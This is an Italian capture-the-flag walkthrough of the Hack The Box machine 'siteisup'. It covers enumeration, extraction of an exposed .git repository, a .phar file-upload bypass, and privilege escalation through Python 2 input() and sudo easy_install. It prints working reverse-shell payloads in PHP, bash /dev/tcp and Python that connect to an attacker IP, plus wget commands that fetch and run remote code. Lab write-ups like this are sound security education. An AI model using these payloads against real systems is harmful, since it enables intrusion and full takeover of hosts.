







### 1. Scan delle porte




### 2. Enumerazione directory e sottodomini

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://siteisup.htb/ -x php
```



- __/dev/__ (STATUS CODE 200 BLANK PAGE)

Enumeriamo eventuali directory in __/dev/__

```bash
dirsearch -u http://10.10.11.177/dev
```



Notiamo che il repository __.git__ è esposto, quindi il prossimo passo è quello di estrarlo ed analizzarlo, uno strumento utile diponibile su github è [GitTools](https://github.com/internetwache/GitTools)

Adesso andiamo a cercare eventuali sottodomini

```bash
wfuzz -w /usr/share/wordlists/amass/subdomains-top1mil-20000.txt -u http://10.10.11.177 -H 'Host: FUZZ.siteisup.htb' --hh 1131
```



- __dev.siteisup.htb__ -> http://dev.siteisup.htb (__NO CONNECTION__)


### 3. Enumerazione Repository Git

```bash
wget -r http://10.10.11.177/dev/.git
```

Navighiamo _.git_ ed analizziamo i log degli ultimi commit.

```bash
git log
```



Notiamo questi due commit molto interessanti che hanno a che fare con un particolare metodo di sicurezza del sottodominio __dev__

```bash
git show bc4ba79e596e9fd98f1b2837b9bd3548d04fe7ab
```



Questo commit sembra aggiungere una semplice misura di sicurezza per consentire solo agli sviluppatori di accedere a dev.siteisup.htb, bisogna solo aggiungere l'header __Special-Dev: only4dev__ nelle richieste HTTP.

### 4. Exploit File Upload

il sito web in http://dev.siteisup.htb ci consente di caricare una lista di url e testare ognuno di essi per vedere se è up oppure down.
Ho inoltre scoperto la directory /uploads che apparentemente non contiene niente neanche in seguito all'upload di file.
Ho successivamente scoperto che i file che carichiamo vanno a finire in questa directory per il tempo in cui vengono elaborati dall'applicazione web, quindi bisogna creare un file molto grande che contiene molti URL da controllare.

Per ottenere una reverse shell quindi basterebbe caricare un file con estensione .php, ma questo non è possibile perchè molte estensioni sono filtrate, ma non __.phar__.

- file.phar

```php
<?php
phpinfo();
?>

...URLS...

```

carichiamo il file e visitiamo la directory uploads, vedremo la pagina di phpinfo.
Molte delle funzioni necessarie per ottenere una reverse shell sono disabilitate.



Possiamo utilizzare questo codice preso da [Web Shells 101](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) per listare le funzioni disponibili più utili per gli exploit.

```php
<?php
print_r(preg_grep("/^(system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)$/", get_defined_functions(TRUE)["internal"]));
?>
```

Ho quindi trovato che __proc_open___ è disponibile.
Allora ho progettato questo script php che ci invia una reverse shell.

```php
<?php

$descriptors = array(
    array('pipe', 'r'),
    array('pipe', 'w'),
    array('pipe', 'w'),
);

$cmd = 'bash -c "cat <(bash -i >& /dev/tcp/10.10.14.125/4444 0>&1)"';
echo $cmd . PHP_EOL;
$ph = proc_open($cmd, $descriptors, $pipes);
echo stream_get_contents($pipes[1]);
echo stream_get_contents($pipes[2]);
proc_close($ph);

?>
```

### 5. Privilege escalation orizzontale
 
In _/home/deveoper/dev_ è presente un file binario con SUID attivo che esegue uno script python con python2. 
Python 2.7 contiene una [vulnerabilità](https://medium.com/@abdelazimmohmmed/python-input-vulnerability-30b0bfea22c9) nella funzione di input che consente di eseguire codice python arbitrario prima che il programma crashi.

- __rev.py__:

```python
a=__import__;s=a("socket");o=a("os").dup2;p=a("pty").spawn;c=s.socket(s.AF_INET,s.SOCK_STREAM);c.connect(("10.10.14.125",4445));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")
```


Bisogna quindi eseguire il binario __siteisup__ per ognuno di questi payload:

```python
__import__("os").system("wget http://10.10.14.125:8000/rev.py")
__import__("os").system("chmod 777 rev.py")
__import__("os").system("python3 rev.py")
```


questi 3 payload mi consentono di scaricare una reverse shell (rev.py) sulla macchina remota dalla mia macchina locale ed eseguirla, in modo tale da avere una shell completa con __developer__ come user, ma il gruppo continua ad essere __www-data__.

A questo punto possiamo abusare delle chiavi SSH per ottenere una shell completa come utente __developer__

### 6. Privilege Escalation verticale

Visualizziamo i permessi particolari che l'utente _developer_ possiede sulla macchina.

```bash
sudo -l
```

Notiamo di poter eseguire questo binario con i privilegi di amministratore __/usr/local/bin/easy_install__.
Si tratta di un sostituto a pip che consente di installare moduli Python scaricandoli da URL esterni.

Per ottenere una shell ROOT il procedimento è abbastanza semplice, basta creare un file .zip che contiene una reverse shell python dentro il file setup.py

e poi possiamo installare tramite easy_install questo modulo malevolo che ci invia direttamente una reverse shell con privilegi di __root__.

```bash
sudo /usr/local/bin/easy_install http://10.10.14.125:8000/evil.zip
```

SIAMO ROOT!!!